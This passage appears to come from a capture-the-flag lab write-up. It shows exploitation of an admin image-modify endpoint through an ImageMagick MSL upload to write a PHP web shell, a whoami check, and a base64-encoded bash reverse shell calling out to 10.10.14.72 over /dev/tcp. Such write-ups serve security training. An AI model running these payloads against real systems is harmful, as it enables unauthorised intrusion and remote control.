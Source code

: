 ```
curl -X POST  -x http://127.0.0.1:8080  -H "Accept: application/json, text/plain, */*" -H "Accept-Language: en-US,en;q=0.5" -H "Accept-Encoding: gzip, deflate" -H "X-Requested-With: XMLHttpRequest" -H "Content-Type: multipart/form-data" -H "X-Requested-With: XMLHttpRequest " -H "X-XSRF-TOKEN: eyJpdiI6IkN2KzNHdEllcndva1JRVjdLR1ZNMEE9PSIsInZhbHVlIjoiYy9wbzQxWnhKVndEVzNVR0k3RVhJbmNJT01SYkJDcktpQTJ2cHRlYXpzMHVUN2RhTDBwY09kQ2w3cG9tSDVDU09XVHZUZ3R2SnIvTis0SUxPNjhZR2VTM3JUZnY0cjlMQklZNlJmWUFGd2pCSUFBeTVXNUhTSjJ4dWllR0x3dHIiLCJtYWMiOiI3NzllMTFmYTZhNDNjZGM3MTZhM2ZhZTQ4MWU1MjM2NmU3NjhhOTVlNzg5YWI0ZjU5ZTBhMmU4ZmMxNDYxZjg4IiwidGFnIjoiIn0="  --cookie "XSRF-TOKEN=eyJpdiI6IkN2KzNHdEllcndva1JRVjdLR1ZNMEE9PSIsInZhbHVlIjoiYy9wbzQxWnhKVndEVzNVR0k3RVhJbmNJT01SYkJDcktpQTJ2cHRlYXpzMHVUN2RhTDBwY09kQ2w3cG9tSDVDU09XVHZUZ3R2SnIvTis0SUxPNjhZR2VTM3JUZnY0cjlMQklZNlJmWUFGd2pCSUFBeTVXNUhTSjJ4dWllR0x3dHIiLCJtYWMiOiI3NzllMTFmYTZhNDNjZGM3MTZhM2ZhZTQ4MWU1MjM2NmU3NjhhOTVlNzg5YWI0ZjU5ZTBhMmU4ZmMxNDYxZjg4IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImFUYlZoSldPWWF6WW1wLytEOE8zSFE9PSIsInZhbHVlIjoiZ2NIV00zNlFTY29Rd2pseWpleXBnMDlWUE5qK3NSVjF5ZmVERVFYaTdpSU5RNDg3d1JyV0RQNmhta1EzSlFxYzdqQ0tpRndKVE5XRUZtUWp4TmUzdTFwMTZZaCtkS0hZa1BjaHI5NkhJM3duOXkvdEM4bGVSUittZjZ1SXBPUXciLCJtYWMiOiJhYjZhNmU2N2YxYjk1YTNlMWIyMDRiODkzODM0MTAwOWZkMTcwODBkOTc0MTdmY2RmNDUyYmU0ZGY3Y2RkZWEwIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjk3MjkzMDIzLCJleHAiOjE2OTczMTQ2MjMsIm5iZiI6MTY5NzI5MzAyMywianRpIjoiMzhnTmMxRGtIZ0lQREJGcSIsInN1YiI6IjIiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.HBdW-t5hCQ8e71PJp04u0FfkDBZoduAtVY7Pp9BmWsE" -F 'effect="charcoal"' -F 'path=vid:msl:/tmp/php*' -F 'exec=@test.msl' http://10.10.11.220/api/v2/admin/image/modify
```

This request will give an error gateway timed out. this is normal because the function does not return an image anymore instead it writes our file. Next we browse to the following url to execute a whoami command to prove that we have system code execution.

```
http://10.10.11.220/calico.php?a=system("whoami");
```
![Code Execution](/assets/img/Intentions/Intentions_4.png)

Great we have code execution. But lets upgrade this to a full reverse shell next. Usually when dealing with command execution through a url i base64 my reverse shell to have less issues with syntax. 

```
echo -n '/bin/bash -l > /dev/tcp/10.10.14.72/443 0<&1 2>&1' | base64

```

this command gave us the following B64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNzIvNDQzIDA8JjEgMj4mMQ==
```

Then using this B64 string our payload will look like this:

```
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNzIvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash
```
